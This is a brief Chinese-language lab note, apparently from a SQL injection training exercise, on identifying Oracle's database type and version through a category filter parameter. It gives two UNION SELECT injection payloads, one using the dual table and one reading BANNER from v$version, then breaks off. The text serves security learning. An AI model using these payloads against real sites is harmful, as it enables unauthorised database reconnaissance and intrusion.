 一般都是MySQL，现在要求查询Oracle上的数据库类型和版本

知识点：

Oracle数据库内置dual表



```
'+UNION+SELECT+'abc','def'+FROM+dual--
```



```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```



题目进行查询

```
/filter?category=
```

![image-20250220161356516](../../_media/image-20250220161356516.png)

可以看到就是显示了两列

接下来就查询版本号:
